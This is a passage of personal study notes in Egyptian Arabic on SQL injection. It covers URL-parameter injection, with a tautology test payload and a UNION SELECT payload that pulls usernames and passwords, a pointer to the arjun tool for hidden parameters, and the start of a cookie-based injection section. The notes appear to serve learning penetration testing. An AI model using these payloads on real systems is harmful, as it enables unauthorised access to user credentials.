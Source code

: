 #### **ازاي بيشتغل؟**
بتعدل الـ URL بإضافة أوامر SQL عشان تخلي الاستعلام يجيب بيانات أو يتجاوب بطريقة معينة.

#### **مثال عملي:**
- الـ URL الأصلي:  ==>قصده شكل ال Parameters في ال url
  ```
  http://example.com/product.php?id=1
  ```
- الاستعلام الداخلي: ==>قصده شكل Parameters في الداتا بيز من جوه
  ```
  SELECT * FROM products WHERE id = 1
  ```

- او لقيت شكل زي كده :
![Pasted image 20250316160920.png](attachments/Pasted image 20250316160920.png)


- **اختبار الثغرة:**  ==> دي الخطوه اللي انا بعملها لو لقيت شكل ال url زي م شوفت فوق كده
  ```
  http://example.com/product.php?id=1' OR '1'='1' --
  ```
  لو ظهرت كل المنتجات، يبقى في ثغرة.

- **سحب بيانات:**
  ```
  http://example.com/product.php?id=1' UNION SELECT 1, username, password FROM users --
  ```
  لو الصفحة بتظهر حاجة زي "admin:12345"، يبقى نجحت.

#### **خلاصة طريفة:**
تخيل إنك بتشتري حاجة من السوبر ماركت وبتقول "هاتلي المنتج رقم 1 أو كل الحاجات اللي في المخزن"، لو الكاشير جابلك كل حاجة، يبقى المخزن بتاعك!


## طب علشان تعرف ال Parameters اللي في الداتا بيز 

استخدم الاداه [[arjun]] بتجيبلك ال Parameters المخفيه

---

### **3. استغلال SQL Injection عبر الكوكيز (Cookies)**
#### **إيه هو؟**
لما الموقع بيستخدم قيم الكوكيز في استعلامات SQL، ممكن تعدلها عشان تستغل الثغرة.

#### **ازاي بيشتغل؟**
بتعدل الكوكيز باستخدام أدوات زي "Edit This Cookie" أو Burp Suite، وبتحط كود SQL.

#### **مثال عملي:**
- الكوكيز الأصلية:
  ```
  user_id=123
  ```
  الاستعلام:
  ```
  SELECT * FROM users WHERE id = 123
  ```
